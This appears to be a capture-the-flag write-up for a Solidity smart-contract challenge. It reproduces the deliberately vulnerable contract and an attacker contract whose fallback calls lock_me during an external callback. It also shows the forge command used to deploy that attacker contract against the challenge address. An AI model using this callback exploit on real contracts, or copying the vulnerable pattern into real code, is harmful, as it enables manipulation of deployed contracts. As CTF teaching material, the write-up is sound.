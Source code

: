 # Task

1) The goal of this challenge is to be able to add your address to the array of winners.
2) Make the getAllwiners function incude your name in the array of winners.

# Contract Address

0x771F8f8FD270eD99db6a3B5B7e1d9f6417394249

# Contract

```sol
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.13;

contract Challenge {
    address owner;
    address[] public winners;
    mapping(address => bool) public HasInteracted;
    mapping(address => string) public Names;
    bool lock;
    bool isPause;

    constructor() {
        owner = msg.sender;
    }

    function exploit_me(string memory _name) public {
        require(!isPause);
        lock = false;

        msg.sender.call("");

        require(lock);
        require(
            HasInteracted[msg.sender] == false,
            "This address has interacted before"
        );

        HasInteracted[msg.sender] = true;
        winners.push(tx.origin);
        string memory name_ = Names[tx.origin];
        require(
            keccak256(abi.encode(name_)) == keccak256(abi.encode("")),
            "Not a unique winner"
        );
        Names[tx.origin] = _name;
    }

    function lock_me() public {
        lock = true;
    }

    function pause(bool _status) external {
        require(msg.sender == owner);
        isPause = _status;
    }

    function getAllwiners() external view returns (string[] memory _names) {
        _names = new string[](winners.length);
        for (uint i; i < winners.length; i++) {
            _names[i] = Names[winners[i]];
        }
    }
}
```

# Attack Contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;

import "../src/winner.sol";

contract attackWinner {
    bool public toggle;
    Challenge public attack;

    constructor(address _targetaddr) {
        attack = Challenge(_targetaddr);
    }

    function bankai(string memory _name) external {
        attack.exploit_me(_name);
    }

    fallback() external payable {
        if (!toggle) {
            toggle = true;
            attack.lock_me();
        }
    }


}
```
Lets deploy this using forge

```
┌──(bl4ck4non💀bl4ck4non-sec)-[~/Documents/web3/foundry/learninggg_foundryyyy]
└─$ forge create --private-key $PRIVATE_KEY src/attackWinner.sol:attackWinner --constructor-args "0x771F8f8FD270eD99db6a3B5B7e1d9f6417394249" 
[⠊] Compiling...
No files changed, compilation skipped
Deployer: 0x296f076DB25846579300E2F89aCBC20bcd96fd3c
Deployed to: 0x1BfEF0b68F985a26aDB235afA2Ab86514f6DeDC8
Transaction hash: 0x650f0540f8ab4636da94695032be758ae909ca136cad42ec4d55b0472cc9ebac
```

![image](https://github.com/user-attachments/assets/0077e574-ab0a-423e-aa56-60cbe4ae24b4)

Now, lets call the `getAllwiners()` function

![image](https://github.com/user-attachments/assets/65a0b6cb-b295-414c-8a1a-f5b9527287ef)

As you can see from the above screenshot my name `:xD` is included in the array of winners























